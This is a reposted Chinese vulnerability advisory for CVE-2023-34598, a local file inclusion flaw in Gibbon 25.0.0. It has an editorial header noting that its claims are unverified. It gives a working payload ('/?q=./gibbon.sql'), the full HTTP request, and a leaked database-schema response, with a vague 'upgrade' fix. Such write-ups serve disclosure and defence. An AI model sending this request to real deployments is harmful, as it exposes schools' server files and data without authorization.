

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：q路由可包含本地文件、gibbon.sql存在；未带认证请求

- **凭据与会话边界（1）**：提供SQL响应片段比截图线索完整，但仅安装schema读取未证明凭据泄露或任意路径范围。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **事实待核（2）**：修复仅升级安全版无具体版本/官方链接；学校管理平台分类可比CMS更准确。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# (CVE-2023-34598) Gibbon v25.0.0 - 文件包含漏洞

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/5OqJg58pxRpORVAAePiCNQ)

**本文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。**

**漏洞说明**

Gibbon 是一个解决教育工作者每天遇到的实际问题的学校平台。

Gibbon 25.0.0 版本存在安全漏洞，该漏洞源于存在本地文件包含漏洞。攻击者可利用该漏洞在服务器响应中包含本地文件。

**影响版本**

```
Gibbon 25.0.0

```

漏洞复现


payload：

```
/?q=./gibbon.sql

```

请求包：  

```
GET /?q=./gibbon.sql HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip, deflate

```

响应包：  

```
.....
                            -- phpMyAdmin SQL Dump
-- version 5.1.0
-- https://www.phpmyadmin.net/
--
-- Host: localhost:8889
-- Generation Time: Jun 20, 2022 at 08:23 AM
-- Server version: 5.7.34
-- PHP Version: 7.4.21
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
SET time_zone = "+00:00";
--
-- Database: `gibbon`
--
-- --------------------------------------------------------
--
-- Table structure for table `gibbonAction`
--
CREATE TABLE `gibbonAction` (
  `gibbonActionID` int(7) UNSIGNED ZEROFILL NOT NULL,
  `gibbonModuleID` int(4) UNSIGNED ZEROFILL NOT NULL,
  `name` varchar(50) NOT NULL COMMENT 'The action name should be unqiue to the module that it is related to',
  `precedence` int(2) NOT NULL,
  `category` varchar(20) NOT NULL,
  `description` varchar(255) NOT NULL,
  `helpURL` varchar(255) DEFAULT NULL,
  `URLList` text NOT NULL COMMENT 'Comma seperated list of all URLs that make up this action',
  `entryURL` varchar(255) NOT NULL,
  `entrySidebar` enum('Y','N') NOT NULL DEFAULT 'Y',
  `menuShow` enum('Y','N') NOT NULL DEFAULT 'Y',
  `defaultPermissionAdmin` enum('N','Y') NOT NULL DEFAULT 'N',
  `defaultPermissionTeacher` enum('N','Y') NOT NULL DEFAULT 'N',
  `defaultPermissionStudent` enum('N','Y') NOT NULL DEFAULT 'N',
  `defaultPermissionParent` enum('N','Y') NOT NULL DEFAULT 'N',
  `defaultPermissionSupport` enum('N','Y') NOT NULL DEFAULT 'N',
  `categoryPermissionStaff` enum('Y','N') NOT NULL DEFAULT 'Y',
  `categoryPermissionStudent` enum('Y','N') NOT NULL DEFAULT 'Y',
  `categoryPermissionParent` enum('Y','N') NOT NULL DEFAULT 'Y',
  `categoryPermissionOther` enum('Y','N') NOT NULL DEFAULT 'Y'
) ENGINE=InnoDB DEFAULT CHARSET=utf8;
.........

```



**修复建议**  

升级至安全版本  

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
